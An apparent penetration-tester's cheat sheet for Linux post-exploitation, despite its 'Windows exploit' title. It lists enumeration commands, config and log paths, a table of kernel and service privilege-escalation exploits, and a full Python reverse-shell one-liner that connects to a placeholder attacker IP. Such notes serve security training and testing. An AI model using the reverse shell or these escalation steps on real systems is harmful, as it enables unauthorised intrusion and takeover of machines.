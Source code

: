 # Windows exploit

## useful tools

* linux-priv-checker
    http://www.securitysift.com/download/linuxprivchecker.py

* ?? LinEnum
    http://www.rebootuser.com/?p=1758

## application and log directory

### Apache
* wwwroot:
    * /var/www/html
* conf:
    * /etc/apache2/httpd.conf
    * /etc/apache2/apache2.conf
    * /etc/httpd/httpd.conf
    * /etc/httpd/conf/httpd.conf
* log: 
    * /var/log/apache/access.log
    * /var/log/apache2/access.log
    * /var/log/httpd/access.log

### MySQL
* log:
* conf:
* Usally the password can be got from wwwroot/Configuration.php or something like that.

## Simple probing command

* uname -a / rpm -qa kernel / dpkg -l | grep kernel
    * uname give kernel info, but I need distro info sometimes.
    * rpm and dpkg can also give you package info for privilege escalation.

* Search for global writable sticky bit files

    find / -type f \(-perm -4000 -o -perm -2000 \) -print

    -print can be replace with -ls

* Search for password in log files ad conf files

* cat /etc/passwd / ls -al /etc/password

## mail

mail are store at /var/spool/mail

## Reverse shell

* Python
```python
-c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOURIP>",<YOURLISTENINGPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* nc

* using /dev/tcp


## TTY shell

* tty shell can run sudo / su, while other cannot
* command python -c 'import pty; pty.spawn("/bin/sh")'

## Exploit compilation

If there is no tool for compile, compile at local
for 64bit window compilation

gcc -m32 -Wl,--hash-style=both -o 9545 9545.c


## Privilege escalation

## Exploit

| Exploit  | Type  | Target  | Note  |
|---|---|---|---|---|
| 'ip_append_data()' Ring0 Privilege Escalation  | PE  | Linux Kernel 2.6 < 2.6.19 (White Box 4 / <b>CentOS 4.4/4.5</b> / Fedora Core 4/5/6 x86)  | n/a |
|  Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation | PE  | Redhat | n/a  | 
| Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) UDEV < 1.4.1 – Local Privilege Escalation (1) |  PE | CentOS 5 | 2 variants  |
| Apache SpamAssassin Milter Plugin 0.3.1 |  PE | Apache SpamAssassin |  |
| pkexec Race condition |  PE | /usr/lib/policykit/... |  |
| MySQL 4.x/5.0 (Linux) – User-defined function (UDF) Dynamic library |  PE | mysqld run on root |  |